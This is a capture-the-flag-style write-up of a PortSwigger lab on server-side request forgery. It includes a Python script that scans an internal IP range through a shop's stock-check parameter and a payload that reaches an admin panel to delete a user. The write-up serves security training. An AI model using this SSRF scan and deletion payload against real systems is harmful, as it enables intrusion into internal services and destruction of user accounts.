

# Basic SSRF against another back-end system
**Category:** Web Exploitation — SSRF
**Difficulty:** Apprentice
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system`

This lab has a stock check feature which fetches data from an internal system.
To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos

---

## Reconnaissance

- What does the application do? 
    - The website is a shop. There is a stock-check feature
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - No direct user input, only in the request itself
- What happens with normal input?
    - The stock of an item at a certain location is given back

---

## Analysis


#### Vulnerability

The app takes an url from user input (stockApi) and fetches it server-side. This time the admin panel doesn't run on localhost so iterating the IPs is a must. SSRF is not limited to localhost.

---

## Solution 

### Step 1 - Recon / Looking at responses

Same idea as last lab, replacing the stockApi url with `/admin` but this time not using localhost but instead iterating ips in the `192.168.0.X` range. Burp Intruder works well enough for this.

---
### Step 2 - Enumeration / Exploitation

I also created a small python program to be faster than intruder:
```python
import requests

url = """https://0abe00b504f5d7a6828993d6005f006f.web-security-academy.net/product/stock"""

for i in range(256):
    payload = {"stockApi":f"http://192.168.0.{i}:8080/admin?productId=2&storeId=3"}
    r = requests.post(url, data=payload)
    if r.status_code == 200:
        print(i)
```

Both the python script and intruder return 117, meaning the IP we are looking for is `192.168.0.117`



Finally changing the stockApi: `
stockApi=http://192.168.0.117:8080/admin/delete?username=carlos`deletes carlos account and solves the lab.

---
## Real World Impact

Abusing this vulnerability an attacker can reach internal services (admin panels, databases) and in the process steal credentials or API-Keys. 
He could also map the internal server using the server as a proxy.

---
## Learnings

- SSRF scope is wherever the server can connect to (locahost + internal networks), scanning the network is often necessary
- Python requests data={} already url encodes the input.